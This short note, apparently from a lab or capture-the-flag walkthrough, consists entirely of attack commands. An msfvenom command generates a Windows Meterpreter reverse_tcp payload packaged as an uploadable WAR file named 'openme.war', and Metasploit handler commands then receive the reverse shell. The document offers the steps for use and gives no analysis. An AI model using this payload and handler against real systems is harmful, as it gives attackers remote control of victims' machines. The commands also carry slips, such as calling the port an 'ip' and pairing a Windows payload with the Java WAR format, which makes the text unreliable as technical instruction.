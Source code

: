 ```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST={local ip} LPORT={choose an open ip} -f war -o openme.war
```

you can upload this file to create a reverse shell

then open metasploit

```
$msfconsole

$use exploit/multi/handler

$set payload windows/x64/meterpreter/reverse_tcp

$set LHOST {local tun0}

$set LPORT {same port msfvenom port}
```

